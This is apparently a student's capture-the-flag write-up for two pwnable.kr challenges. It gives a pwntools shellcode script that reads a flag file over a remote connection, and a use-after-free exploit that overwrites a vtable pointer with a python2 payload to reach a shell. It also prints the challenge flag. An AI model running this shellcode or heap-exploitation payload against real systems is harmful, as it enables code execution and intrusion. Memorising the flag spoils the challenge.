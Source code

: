  # LEVEL - asm
here we had to write a asm x64 shell script that will open the 
flag read from it and then will write the content to sdtout so instead 
of writing all the assembly we can use pwntools shellcraft that will 
write all the asambly for us that's the code i used to get the flag:
```
from pwn import *
context.arch = 'amd64'
p= remote('pwnable.kr',9026)
p.recvuntil(b'shellcode:')

send = shellcraft.open('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')

send += shellcraft.read('rax','rsp',0x50)

send += shellcraft.write(1,'rsp',0x50)

p.send(asm(send))
get = p.recvline().decode()
print(get)
```
here we conect to pwnable.kr in port 9026 we use shellcraft to make the assembly open code we try to open the flag ( the flag name is relly long)
and than we add to the nessage we will send to the sever to get the flag the assembly cod e of read we use ax as the file discreptor becouse its the register where the return verbels are stored in we store the content of the flag in the stack so we use sp we read 50 byts and than we write what we got from the flag to stdout and in the end we get the flag

 # LEVEL - uaf
 in this level we had to use the mthod use-after-free where we free some space in the heap and than we aloccate memory in the size of the mempry we freed and this memory will go to the same place in the heap here is the code off the program :
 ```
 class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

 int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                       case 1:
                        m->introduce();
                        w->introduce();
                        break;
                       case 2:
                        len = atoi(argv[1]);
                        data = new char[len];
                        read(open(argv[2], O_RDONLY), data, len);
                        cout << "your data is allocated" << endl;
                        break;
                       case 3:
                        delete m;
                        delete w;
                        break;
                       default:
                        break;
                }
        }

        return 0;
}
 ```

so we see that we alocate at the start memory foe the man and women objects and in the loop we can free this memory and we also cat alocate new memory for a string 
when we disassemble the main using gdb we see:

```
mov    rax,QWORD PTR [rbp-0x38]
mov    rax,QWORD PTR [rax]
add    rax,0x8
mov    rdx,QWORD PTR [rax]
mov    rax,QWORD PTR [rbp-0x38]
mov    rdi,rax
call   rdx
```


and this is the place where man and women are stored:

```
            addres         heap       vtabel
man - 0x7fffffffde28 —▸ 0x614ee0 —▸ 0x401570 —▸ 0x40117a (Human::give_shell())
women - 0x7fffffffde30 —▸ 0x614f30 —▸ 0x401550 —▸ 0x40117a (Human::give_shell()) 
```


so we see they point to thire vtabel and the code add 8 to the v tabel to get to the right function with is introduce() but what we can do is free the memory of man and women and than we will alocate memory for the new string in opthion 2 in the swith statment and that string will hold the vtabel addres-8 and this new alocated memory will go to the heap addres of man so when we will try to execute function introduce() the program will go strait to the start of the vtabel and the start of the vtabel holds the function give_shell() so we will get the shell and get the flag 

so i used python2 -c "print('A' * 96 + '\x68\x15\x40\x00\n')" as the string to pass to the new alocated string and the size i sent was 4 becuse the size of the addres is 4 bytes(./uaf 4 python2 -c "print('A' * 96 + '\x68\x15\x40\x00\n')")

the flag is: yay_f1ag_aft3r_pwning
